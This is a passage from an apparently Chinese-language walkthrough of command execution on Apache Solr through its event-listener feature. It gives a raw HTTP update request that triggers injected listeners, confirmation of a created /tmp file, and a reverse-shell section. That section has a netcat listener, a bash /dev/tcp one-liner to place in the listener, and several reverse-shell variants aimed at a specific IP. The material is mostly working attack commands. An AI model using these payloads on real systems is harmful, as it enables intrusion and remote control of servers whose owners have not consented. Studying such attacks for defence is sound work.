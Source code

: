 **我们再来试试重复用name值，会怎样？**
**可以看到重复使用name值，就直接报错，无法成功创建listener！**

![img](https://img-blog.csdnimg.cn/a9ff5f7fe30448098de32f6d4d293e07.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5qix5rWF5rKQ5Yaw,size_20,color_FFFFFF,t_70,g_se,x_16)

**然后进行update操作，触发刚才添加的listener：**
**这个包触发所有存在的listener！**

```
POST /solr/demo/update HTTP/1.1
Host: your-ip(自行修改IP)
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

![image-20220704214424341](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220704214424341.png)

**成功执行、进行验证，可以看到成功创建/tmp/success下的文件**

![image-20220704214545187](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220704214545187.png)





# 反弹shell

服务器NC监听

![img](https://img-blog.csdnimg.cn/6255cc75354c4aa3aad7b067de86a309.png)

**然后创建listener。改name的值（任意修改），换成自己想执行的命令**

```bash
bash -i >& /dev/tcp/xx/xxx 0>&1
```

**Tips:**

```bash
1.0、
双方都是bash
使用bash -i >& /dev/tcp/192.168.100.34/9090 0>&1
可以反弹
1.1、
双方都是sh
使用sh -i >& /dev/udp/192.168.100.34/1111 0>&1
无法反弹
1.2、
双方都是/bin/bash
使用/bin/bash -i > /dev/tcp/192.168.100.34/1111 0<& 2>&1
无法反弹
```
